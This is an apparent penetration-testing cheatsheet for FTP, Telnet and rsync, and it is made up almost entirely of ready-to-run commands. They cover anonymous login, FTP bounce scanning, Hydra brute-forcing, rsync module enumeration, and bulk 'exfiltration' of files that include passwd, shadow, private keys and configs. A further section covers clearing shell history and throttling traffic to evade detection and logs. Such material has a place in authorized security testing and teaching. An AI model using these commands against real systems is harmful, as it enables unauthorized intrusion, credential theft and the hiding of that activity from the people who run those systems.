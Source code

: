 # Cleartext Protocols Cheatsheet

## FTP

### Service Discovery & Banner Grabbing
* Basic FTP connection: `ftp <target_ip>`
* Netcat banner grab: `echo "QUIT" \| nc <target_ip> 21`
* Nmap service detection: `nmap -sV -p 21 <target_ip>`
* Nmap with FTP-specific scripts: `nmap --script ftp-anon,ftp-bounce,ftp-brute,ftp-proftpd-backdoor,ftp-vsftpd-backdoor -p 21 <target_ip>`

### Anonymous Access
* Username: `anonymous`
* Password (if needed): `anonymous@example.com` (or any other existing or non-existing email address)

### FTP Bounce Scanning
* Use FTP server as proxy for port scanning: `nmap -b anonymous:anonymous@<ftp_server> <internal_target>`

### Data Exfiltration
* Bulk recursive download: `wget -r ftp://anonymous:anonymous@<target_ip>`
* Advanced FTP client: `lftp ftp://anonymous:anonymous@<target_ip>` → `mirror <remote_path> <local_path>`

## Telnet

### Service Discovery
* Basic Telnet connection: `telnet <target_ip> 23`
* Nmap service detection: `nmap -sV -p 23 <target_ip>`
* Nmap with Telnet-specific scripts: `nmap --script telnet-brute,telnet-encryption,telnet-ntlm-info -p 23 <target_ip>`

### Port Scanning
* Scan common Telnet ports: `nmap -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`
* Service detection on multiple ports: `nmap -sV -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`

### Hydra
* Hydra brute force: `hydra -L usernames.txt -P passwords.txt telnet://<target_ip> -vV -t4 -I`

### Initial Reconnaissance Commands

### Session Enumeration

| Command | Description |
|---------|-------------|
| `who` | Currently logged-in users |
| `w` | System users and their processes |
| `last` | Recent login/logout history |
| `users` | List of current usernames |
| `tty` | Current terminal name |
| `ps -t $(tty)` | Processes running on current terminal |

### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |

## rsync

### Service Discovery
* Basic rsync service test and module listing: `rsync <target_ip>::`
* Explicit module listing: `rsync --list-only <target_ip>`
* Scan common rsync ports: `nmap -p 873,8873,9873 <target_ip>`
* Service detection: `nmap -sV -p 873 <target_ip>`

### Module Enumeration
* Detailed module information: `rsync -av --list-only <target_ip>::<module_name>`
* Test common modules: `for module in backup home www data etc opt var; do echo "Testing module: $module"; rsync --list-only <target_ip>::$module 2>/dev/null; done`

### File Type Hunting
* Search for specific valuable file types: `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'`

### Data Extraction
* Complete module mirror: `rsync -avz <target_ip>::<module>/ ./rsync_dump/`
* Selective file extraction: `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/`
* Bandwidth-limited extraction: `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/`

### High-Value File Extraction
```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing
1. Create test file: `echo "rsync_test_$(date)" > test_file.txt`
2. Attempt upload: `rsync -avz test_file.txt <target_ip>::<module>`
3. Verify upload: `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt`

## Detection Evasion & Operational Security

### Traffic Obfuscation

| Technique | Command Example |
|-----------|-----------------|
| Bandwidth limiting | `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump` |
| Randomized delays | `sleep $((RANDOM % 300 + 60))` (1-6 minute random delay) |

### Log Evasion

| Protocol | Evasion Technique |
|----------|-------------------|
| FTP | Use realistic email addresses for anonymous login |
| Telnet | Clear command history before disconnect |
| rsync | Use bandwidth limiting to appear as legitimate sync |

Reach out: https://linktr.ee/january1073

